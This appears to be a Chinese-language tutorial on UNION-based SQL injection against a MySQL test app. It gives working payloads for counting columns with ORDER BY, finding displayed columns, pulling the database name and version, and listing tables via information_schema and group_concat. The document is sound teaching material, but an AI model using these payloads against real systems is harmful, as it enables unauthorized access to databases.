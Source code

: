 ### 1、在一条sql语句中，执行多条查询
```yaml
UNION操作符选取不重复的值。如果允许重复的值，请使用UNION ALL
渗透大多数情况，使用UNION ALL
```
```sql
SELECT id,username FROM `user` WHERE id = 1 
union all 
SELECT id,username FROM `user` WHERE id = 1;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_10.png)
### 2、information_schema数据库中有三个表非常重要
```yaml
1.schemata:表里包含所有数据库的名字 
2.tables:表里包含所有数据库的所有的表，默认字段为table_name 
3.columns:三个列非常重要
    TABLE_SCHEMA:数据库名 
    TABLE_NAME:表名
    COLUMN_NAME:字段名
```
### 3、联合注入的过程1：
#### 使用order by判断注入点，联合查询的多条语句，列数必须一致
#### 3.1 首先要了解order by，排序
```sql
# 以第一列id为基础，进行排序
SELECT id,username FROM `user` ORDER BY 1;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_11.png)
```sql
# 以第二列，username为基础，进行排序
SELECT id,username FROM `user` ORDER BY 2;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_12.png)
```sql
# 以第三列进行排序，报错
SELECT id,username FROM `user` ORDER BY 3;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_13.png)
#### 3.2 通过上面order by的方式，来判断sql语句返回的数据，有多少列
```sql
1' order by 12 #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_14.png)
```sql
select * from user where username='1' order by 13 #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_15.png)
```yaml
通过以上数据可以证明，需要渗透的数据库表格中，一共有12列
```
### 4、联合注入的过程2：
### 判断是整型还是字符型
```yaml
判断是整形还是字符型，参考sql注入的2，3号文档
```
### 5、联合注入的过程3:
### 判断显示位，就是哪一列在前端进行了展示
#### 5.1 通过上面的举例，可以看出，一共有12列，那么，可以通过union all，来判断哪几位展示给了前端
```sql
1' union all select 1,2,3,4,5,6,7,8,9,10,11,12  #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_16.png)
```sql
select * from user where username='1' union all select 1,2,3,4,5,6,7,8,9,10,11,12 #';
```
![image](https://github.com/498946975/Security/blob/master/images/sql_17.png)

### 6、联合注入的过程4:
### 获取数据库的名称,和数据库版本
#### 6.1 通过以上的数据，在第二列和第11列，输入函数，显示对应的信息
```sql
1' union all select 1,database(),3,4,5,6,7,8,9,10,version(),12  #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_18.png)
```sql
select * from user where username='1' union all select 1,database(),3,4,5,6,7,8,9,10,version(),12 #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_19.png)

### 7、联合注入的过程5:
### 巧妙使用group_concat(table_name)函数，获取所有表的名称
#### 7.1 把所有的table_name拼接起来，在第11列进行展示
```sql
1' union all select 1,database(),3,4,5,6,7,8,9,10,group_concat(table_name),12 from information_schema.tables where table_schema = 'test_fastapi'  #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_20.png)
```sql
select * from user where username='1' union all select 1,database(),3,4,5,6,7,8,9,10,group_concat(table_name),12 from information_schema.tables where table_schema = 'test_fastapi' #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_21.png)
